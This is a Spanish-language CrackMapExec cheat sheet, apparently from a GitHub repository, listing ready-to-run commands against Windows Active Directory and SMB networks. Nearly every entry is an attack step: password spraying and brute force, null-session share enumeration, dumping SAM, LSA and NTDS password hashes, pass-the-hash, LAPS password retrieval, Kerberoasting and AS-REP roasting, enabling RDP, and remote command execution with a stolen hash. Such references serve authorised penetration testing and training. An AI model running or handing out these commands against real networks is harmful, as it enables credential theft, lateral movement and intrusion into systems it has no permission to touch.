 # CrackMapExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
crackmapexec smb 192.168.1.0/24
```

#### SMB con credenciales a dominio WORKGROUP
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### Password Spraying
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt
```

#### Spraying Attack con usuario y contraseña lineal
```
crackmapexec smb <IP-Address> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

#### Spraying Attack
```
crackmapexec smb <IP-Address> -u users.txt -p '<PASSWORD>' --continue-on-success
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Enumeración de directorios compartidos SMB con NULL session
```
crackmapexec smb <IP-Address> -u 'null' -p ' ' --shares
```

#### Brute Force de usuarios
```
crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```

#### Dumping Hashes SAM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes NTLM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --ntds
```

#### Dumpear Hashes LSA
```
crackmapexec smb <IP-Address> -u 'Administrator' -p '<PASSWORD>' --lsa
```

#### Dumpear Hashes NTD
```
crackmapexec smb <IP-Address> -u 'Administrator' -H '<HASH-NT>' --ntds vss
```

#### PassTheHash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' --local-auth
```

#### LAPS
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --laps
```

#### Fuerza bruta a Kerberos
```
crackmapexec smb <IP-Address> -u users.txt -p '' --kerberos
```

#### Ataque de Kerberoasting
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting <OUTPUT-FILE>
```

#### Ataque de Asreproast
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --asreproast <OUTPUT-FILE>
```

#### Habilitar RDP con usuario y password de Administrador
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -M rdp -o action=enable
```

#### Ejecutar comandos usando el Hash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -x 'COMMAND'
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -X 'COMMAND'
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)